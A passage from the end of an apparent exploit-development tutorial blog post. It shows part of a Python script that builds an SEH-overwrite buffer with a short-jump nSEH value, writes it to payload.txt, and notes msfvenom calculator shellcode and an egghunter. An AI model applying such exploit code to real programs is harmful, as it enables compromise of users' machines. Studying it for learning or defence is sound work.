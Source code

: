 padding += "A" * (620-len(padding))

nseh = struct.pack("<I",0x80eb9090)
seh = "\x13\xc0\x40"

payload = padding + nseh + seh 
with open("payload.txt","w") as file:
    file.write(payload)
    file.close()
    
print "[*] payload.txt is ready!"

{% endhighlight %}

I used msfvenom for the shellcode and the payload that I used is to pop up a calculator. Run the script and copy paste the exploit to the program you will get the following result:

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_2/windows18.png)
{: refdef}

Cool! in this post we take a look at how null byte still can be used to deliver a reliable exploit and we also incoporate egghunter to find more space to our shellcode.

I hope you enjoy this post and see you later!



[breaking-link]: https://court-of-testing-analysing.blogspot.com/2019/11/breaking-code-exploit-development.html
[ie-link]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[exploitdb-link]: https://www.exploit-db.com/exploits/46625
[fuzzy-link]: https://www.fuzzysecurity.com/tutorials/expDev/3.html